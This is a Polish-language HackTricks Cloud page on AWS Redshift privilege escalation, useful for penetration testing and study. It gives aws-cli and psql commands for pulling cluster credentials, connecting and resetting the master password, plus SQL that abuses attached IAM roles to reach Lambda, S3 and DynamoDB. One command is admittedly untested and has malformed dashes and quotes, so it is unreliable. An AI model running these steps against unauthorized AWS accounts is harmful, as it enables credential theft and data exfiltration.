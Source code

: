 # AWS - Redshift Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Redshift

Aby uzyskać więcej informacji o RDS, sprawdź:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Dzięki tym uprawnieniom możesz uzyskać **informacje o wszystkich klastrach** (w tym nazwę i nazwę użytkownika klastra) oraz **uzyskać poświadczenia** do jego dostępu:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Dzięki tym uprawnieniom możesz uzyskać **informacje o wszystkich klastrach** oraz **uzyskać poświadczenia** do ich dostępu.\
Zauważ, że użytkownik postgres będzie miał **uprawnienia, które ma tożsamość IAM** użyta do uzyskania poświadczeń.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Możliwe jest **zmodyfikowanie hasła głównego** użytkownika internal postgres (redshit) z aws cli (myślę, że to są potrzebne uprawnienia, ale jeszcze ich nie testowałem):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

## Uzyskiwanie dostępu do zewnętrznych usług

{% hint style="warning" %}
Aby uzyskać dostęp do wszystkich poniższych zasobów, musisz **określić rolę do użycia**. Klaster Redshift **może mieć przypisaną listę ról AWS**, które możesz wykorzystać **jeśli znasz ARN** lub możesz po prostu ustawić "**default**", aby użyć domyślnej przypisanej.

Ponadto, jak [**wyjaśniono tutaj**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift pozwala również na łączenie ról (o ile pierwsza może przyjąć drugą), aby uzyskać dalszy dostęp, po prostu **oddzielając** je przecinkiem: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdy

Jak wyjaśniono w [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html), możliwe jest **wywołanie funkcji lambda z redshift** za pomocą czegoś takiego:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Jak wyjaśniono w [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), możliwe jest **czytanie i pisanie do kubełków S3**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Jak wyjaśniono w [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html), możliwe jest **pobranie danych z dynamodb**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Tabela Amazon DynamoDB, która dostarcza dane, musi być utworzona w tym samym regionie AWS co twój klaster, chyba że użyjesz opcji [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region), aby określić region AWS, w którym znajduje się tabela Amazon DynamoDB.
{% endhint %}

### EMR

Sprawdź [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
